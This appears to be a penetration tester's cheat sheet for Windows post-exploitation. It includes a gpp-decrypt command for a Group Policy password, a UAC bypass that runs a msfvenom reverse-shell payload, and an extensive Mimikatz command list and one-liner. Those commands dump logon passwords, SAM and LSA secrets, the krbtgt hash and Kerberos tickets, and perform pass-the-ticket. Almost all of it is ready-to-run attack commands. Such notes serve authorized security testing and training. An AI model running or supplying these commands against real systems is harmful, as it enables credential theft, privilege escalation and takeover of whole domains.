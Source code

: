 
#### Decrypt GPP Password

```bash
kali@kali:~$ gpp-decrypt "+bsY0V3d4/KgX3VJdO/vyepPfAN1zMFTiQDApgR92JE"
```

#### Privileges Mapped to Exploits Page, such as SeImpersonate

"https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens"

#### Whenever you get a Shell

```bash
Start-Process -NoNewWindow -FilePath C:\Windows\Tasks\shell.exe
```

#### UAC Bypass

Check for this in PowerUp's Invoke-AllChecks output. Follow the steps listed in "https://github.com/CsEnox/EventViewer-UACBypass". For the command, execute a msfvenom payload for a proper reverse shell, such as

```bash
Invoke-EventViewer "C:\Windows\Tasks\shell.exe"
```

#### When you Become Local Admin

Run all MimiKatz commands and save the output:

If mimikatz is acting a fool, do a one-liner.

```bash
.\mimikatz.exe
token::elevate # Makes sure commands are run as system
token::elevate /domainadmin
privilege::debug # Test if ^ is the case
log
sekurlsa::logonpasswords # Who has been on the host machine?
kerberos::list /export
kerberos::ptt ticket.kirbi # whoami will return your name pre-ptt, must test by access or executing something you couldn't before
lsadump::lsa /inject
lsadump::lsa /inject /name:krbtgt
kerberos::tgt
sekurlsa::msv
sekurlsa::ekeys
lsadump::sam
lsadump::secrets
lsadump::cache

.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "kerberos::list /export" "sekurlsa::msv" "sekurlsa::ekeys" "lsadump::sam" "lsadump::secrets" "lsadump::cache"  "exit"
```
